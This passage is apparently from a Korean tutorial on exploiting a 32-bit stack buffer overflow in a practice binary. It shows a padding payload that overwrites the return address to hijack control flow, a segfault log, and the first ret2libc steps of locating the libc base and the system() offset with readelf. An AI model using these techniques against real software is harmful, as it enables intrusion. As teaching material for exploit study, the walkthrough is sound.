 PAYLOAD `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN`에서 `LLLL`  부분만 다른것으로 치환하면 return address를 마음대로 조작해서 control-flow를 hijacking할 수 있겠습니다. 예를들어 `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKAAAA` 를 payload로 활용한다면? return address가 0x41414141로 변경될 겁니다.

```sh
$ dmesg

...
[ 1256.173292] ex1[2571]: segfault at 41414141 ip 0000000041414141 sp 00000000ff8f8a70 error 14 in libc-2.31.so[f7dbc000+19000]
```


### Return 주소가 덮였을때 stack의 상태

스택의 상태는 아래와 같을 겁니다.

```sh
                ---------------------------
        RET     |          LLLL           |
                ---------------------------
        EBP     |          KKKK           |
                ---------------------------
                |          JJJJ           |
                ---------------------------
                |          IIII           |
                ---------------------------
                |          HHHH           |
                ---------------------------
                |          GGGG           |
                ---------------------------
                |           ..            |
                ---------------------------
                |          AAAA           |
                ---------------------------
```

### 이제는 무엇을 해야할까? 어디로 return 할지 주소를 알아야 합니다. 그렇게 하기 위해서는 필요한 함수/문자열의 주소를 주소를 알아야 합니다.

* LIBC base 주소 알기

처음 프로그램을 실행하면 친절하게도 stack 및 system 함수 주소를 알려줍니다. 우리는 libc 내부의 system 함수의 offset을 이용해서 libc base address를 찾을 수 있습니다.

```sh
LIBC_BASE_ADDR = SYSTEM_ADDR - SYSTEM_OFFSET
```

system 함수의 offset은 어떻게 찾을까요? 우리는 본 튜토리얼에서 `readelf`와 `strings`를 이용할 예정입니다.

```sh

# library 확인
$ ldd ex1
        linux-gate.so.1 (0xf7f52000)
        libdl.so.2 => /lib/i386-linux-gnu/libdl.so.2 (0xf7f30000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7d41000)
        /lib/ld-linux.so.2 (0xf7f54000)

# offset 조회
$ readelf -s /lib/i386-linux-gnu/libc.so.6 |grep system
  1537: 00041790    63 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.0
```
